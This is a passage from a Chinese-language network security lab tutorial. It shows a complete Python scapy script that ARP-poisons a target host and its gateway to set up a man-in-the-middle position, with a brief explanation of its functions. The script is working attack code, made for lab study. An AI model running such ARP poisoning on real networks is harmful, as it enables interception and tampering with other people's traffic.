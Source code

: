 图中圈出来的长字符串就是Windows系统无线网卡的名称，其他网卡的名称获取方法类似。


通过直接使用arpspoof可以完成本阶段的实验，但这里通过python的scapy包来简单地模拟实现arpspoof。arpspoof源代码可以参考这篇[arpsoof源码分析](https://blog.csdn.net/rectsuly/article/details/63261412?locationNum=5&fps=1)

scapy相关资料：
文档地址：[http://www.secdev.org/projects/scapy/doc/](http://www.secdev.org/projects/scapy/doc/)
中文版教程：[https://github.com/Larryxi/Scapy_zh-cn](https://github.com/Larryxi/Scapy_zh-cn)

scapy实现的arpspoof源代码如下：./codes/arp-mitm/arp.py
```python
from optparse import OptionParser
from scapy.all import get_if_hwaddr, getmacbyip, ARP, Ether, sendp
import sys
import time
def parse_arguments():
    usage = 'Usage: %prog [-i interface] [-t target] host'
    parser = OptionParser(usage)
    parser.add_option('-i', dest='interface', help='Specify the interface to use')
    parser.add_option('-t', dest='target', help='Specify a particular host to ARP poison')
    (options, args) = parser.parse_args()
    if options.interface and options.target and len(args):
        arp_poison(options.interface, options.target, args[0])
    else:
        parser.print_help()
        sys.exit(0)

def arp_poison(interface, target, gateway):
    local_mac = get_if_hwaddr(interface)
    target_mac = getmacbyip(target)
    gateway_mac = getmacbyip(gateway)
    print 'local_mac = {} target_mac = {} gateway_mac = {}'\
        .format(local_mac, target_mac, gateway_mac)
    if not all((local_mac, target_mac, target_mac)):
        print 'Fail to Get MAC Address, Please Check the Arguments'
        sys.exit(0)
    packet_t = Ether(src=local_mac, dst=target_mac) \
        / ARP(hwsrc=local_mac, psrc=gateway, hwdst=target_mac, pdst=target, op=2)
    packet_g = Ether(src=local_mac, dst=gateway_mac) \
        / ARP(hwsrc=local_mac, psrc=target, hwdst=gateway_mac, pdst=gateway, op=2)
    try:
        while True:
            sendp(packet_t, inter=2, iface=interface)
            sendp(packet_g, inter=2, iface=interface)
            time.sleep(1)
    except KeyboardInterrupt:
        sys.exit(0)

if __name__ == '__main__':
    parse_arguments()
```
代码并不复杂，除了print语句外对Python2和Python3并不敏感。`parse_arguments()`函数进行参数的解析，`arp_poison()`函数构造arp欺骗包同时欺骗受害者和网关，并每隔一秒发送数据包。
